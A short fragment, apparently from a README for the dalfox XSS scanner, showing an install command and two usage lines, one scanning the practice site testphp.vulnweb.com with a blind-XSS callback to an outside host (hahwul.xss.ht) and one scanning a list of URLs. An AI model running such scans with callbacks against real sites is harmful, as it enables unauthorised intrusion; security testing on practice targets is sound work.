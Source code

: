 # Install fedora
sudo snap install dalfox

```sh
dalfox url http://testphp.vulnweb.com:80/listproducts.php?cat=2 -b hahwul.xss.ht
dalfox file urls.hasparams
```